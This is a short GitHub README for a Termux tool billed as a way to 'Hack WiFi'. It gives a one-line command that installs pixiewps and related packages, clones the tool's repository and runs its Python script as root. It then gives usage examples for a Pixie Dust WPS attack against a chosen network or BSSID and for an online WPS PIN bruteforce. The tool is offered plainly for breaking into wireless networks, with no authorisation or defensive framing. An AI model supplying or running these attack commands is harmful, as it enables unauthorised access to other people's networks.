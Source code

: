 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/Gtajisan/FxWiFi && cd FxWiFi && chmod +x farhanX.py && sudo python farhanX.py --help
```

#### Example : `sudo python farhanX.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python farhanX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python farhanX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python farhanX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
